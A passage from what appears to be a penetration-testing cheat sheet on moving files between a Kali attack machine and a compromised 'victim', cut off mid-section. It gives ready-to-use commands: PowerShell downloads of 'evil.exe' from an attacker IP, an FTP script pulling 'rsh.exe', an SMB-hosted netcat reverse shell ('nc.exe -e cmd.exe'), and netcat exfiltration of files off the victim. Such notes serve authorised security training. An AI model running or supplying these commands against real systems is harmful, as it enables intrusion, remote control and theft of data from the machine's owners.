```bash
powershell -c (New-Object Net.WebClient).DownloadFile('http://ip-addr:port/file', 'output-file')
# OR
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')
```
#### FTP
To Host an FTP server from Kali, run:
```bash
python -m pyftpdlib -p 2121
# OR to open ftp port 22 run
sudo service pure-ftpd start
```
From Linux Victim, to pull all recursively:
```bash
wget -r ftp://anonymous:anonymous@192.168.119.244:212
```
From Victim with non-interactive shell, run the following commands to build a file:
```bash
echo open <ip-addr> > ftp.txt
echo anonymous >> ftp.txt
echo anonymous >> ftp.txt
echo binary >> ftp.txt
echo GET [file.exe] >> ftp.txt
echo bye >> ftp.txt
# Send File:
ftp -v -n -P 2121 -s:ftp.txt
```
FTP one-liner:
```bash
echo open 192.168.119.145 >> ftp &echo user anonymous anonymous >> ftp &echo binary >> ftp &echo get rsh.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp &del ftp
```
#### SCP:
*Only available if we have the Victims SSH credentials!*
From Kali (send file to Victim):
```bash
scp <options> <file> <user>@<Victim_IP>:~/path/to/file
```
From Kali (pull file from Victim):
```bash
scp <options> <user>@<Victim_IP>:~/path/to/file <file>
```
#### SMB
From Kali folder hosting files:
```
impacket-smbserver share ./
```
From Victim (*example; execute the nc.exe file hosted in the share on the local server*):
```bash
\\10.10.14.45\share\nc.exe -e cmd.exe 10.10.14.45 8080
```
### Pulling From Victim Machine to Attack Machine
#### Netcat
On Kali we set up a listener:
```bash
nc –nlvp 4444 > incoming.zip
```
From Victim Machine we can send the file with:
```bash
netcat.exe –nv <IP> 4444 < outgoing.zip
```
#### HTTP/CURL:
To pull a file from a Victim machine we can spin up an Updog server:
```bash
```